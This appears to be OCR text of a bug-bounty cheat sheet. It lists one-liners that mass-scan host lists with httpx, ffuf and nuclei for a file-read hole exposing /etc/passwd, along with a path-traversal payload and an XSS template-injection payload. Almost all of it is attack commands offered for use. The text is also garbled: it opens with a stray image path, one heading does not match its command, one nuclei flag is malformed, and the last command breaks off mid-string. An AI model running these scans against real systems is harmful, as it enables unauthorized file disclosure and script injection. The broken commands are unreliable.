 httpx -l IPlist.txt -follow-redirects -title -path /api/geojson?url=file:///etc/passwd -match-string "root:x:0:0"

```



```

ffuf -c -w live.txt -u FUZZ/api/geojson?url=file:///etc/passwd -mr "root:x:0" -t 500

```



```

echo "[http://site.com](https://t.co/6jKKc48dKf)" | httpx | nuclei -t nuclei-templates/cves/2021/CVE-2021-41277.yaml

```

	

Payloads:

```

/v1/docs//..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\..\\\/etc/passwd

```







Find PUT method enable:

```

cat targets.txt | assetfinder -subs-only | httpx -silent -p 80,443,8080,8443,9000,9001,9002,9003 -nc | nuclei -t severity high -silent | tee -a BugsFound.txt

```





Find XSS:

```

cat hosts | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/?name={{this.constructor.constructor('alert(\"foo\")')()}}" -mr "name={{this.constructor.constructor('alert("
